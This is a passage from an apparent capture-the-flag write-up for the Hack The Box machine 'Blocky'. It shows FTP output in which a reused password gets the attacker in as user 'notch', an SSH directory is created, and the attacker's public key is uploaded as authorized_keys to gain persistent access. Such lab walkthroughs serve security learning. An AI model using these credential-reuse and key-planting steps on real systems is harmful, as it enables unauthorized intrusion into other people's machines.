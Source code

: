 ```
drwxrwxr-x   7 notch    notch        4096 Jul  3  2017 minecraft
-r--------   1 notch    notch          33 Oct 11 00:28 user.txt
226 Transfer complete
```

### `Let's Assume that the password didn't worked`

Let's assume that our password that we obtained from the source code did not allowed us to SSH into the box as a user `notch`. 
```
# ftp 10.10.10.37                                                                                                                 
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:ringbuffer): notch
331 Password required for notch
Password: 
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||28992|)
150 Opening ASCII mode data connection for file list
drwxrwxr-x   7 notch    notch        4096 Jul  3  2017 minecraft
-r--------   1 notch    notch          33 Oct 11 00:28 user.txt
226 Transfer complete
ftp> cd .ssh
550 .ssh: No such file or directory
ftp> mkdir .ssh
257 "/.ssh" - Directory successfully created
ftp> cd .ssh
250 CWD command successful
```

FTP into the box using `notch` password that we got from the source code. Assuming that the password works for FTP but not for SSH. Create a `.ssh` directory. 
```
──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb]
└─# cp /home/ringbuffer/.ssh/id_rsa.pub .
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb]
└─# python -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
ftp> put id_rsa.pub
local: id_rsa.pub remote: id_rsa.pub
229 Entering Extended Passive Mode (|||26400|)
150 Opening BINARY mode data connection for id_rsa.pub
100% |***************************************************************************************************************************|   569        2.42 MiB/s    00:00 ETA
226 Transfer complete
569 bytes sent in 00:00 (15.44 KiB/s)
ftp> rename id_rsa.pub authorized_keys
350 File or directory exists, ready for destination name
250 Rename successful
```
